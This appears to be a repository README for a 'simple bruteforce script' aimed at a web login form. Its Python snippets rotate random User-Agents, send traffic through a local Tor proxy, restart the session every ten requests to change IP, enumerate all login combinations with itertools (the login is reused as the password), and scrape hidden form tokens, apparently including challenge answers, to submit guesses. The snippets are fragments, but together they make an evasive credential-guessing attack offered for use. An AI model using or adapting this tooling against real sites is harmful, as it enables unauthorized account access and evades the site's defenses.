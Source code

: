 # Simple bruteforce script

Generate Random User-Agent
```
from fake_useragent import UserAgent
headers = {
    'User-Agent': UserAgent().random
}
```

Proxy (TOR proxy is used in example)
```
proxies = {
    "http": "socks5://127.0.0.1:9050",
    "https": "socks5://127.0.0.1:9050",
}
```

Use itertools module to enumerate all possible combinations of logins
```
for login in itertools.product(SYMBOLS, repeat=login_length):
    login = "".join(login)
```

Refresh the session per 10 requests, to change User-Agent and IP
```
def start_new_session():
    s = requests.Session()
    r = s.get(URL, headers=headers, proxies=proxies)
    return s, r

if counter == 10:
    session, response = start_new_session()
    counter = 0
```

To send request the application requires some data from the page source. Use BeautifulSoup library to parse the webpage
```
data = {
    'login': login,
    'password': login,
    'answer': soup.find(id="Answer_hidden")['value'],
    'hash': soup.find(id="hash_hidden")['value'],
    'one': soup.find(id="One_hidden")['value'],
    'symbol': soup.find(id="Symbol_hidden")['value'],
    'two': soup.find(id="Two_hidden")['value'],
    'type': soup.find(id="Type_hidden")['value']
}
```
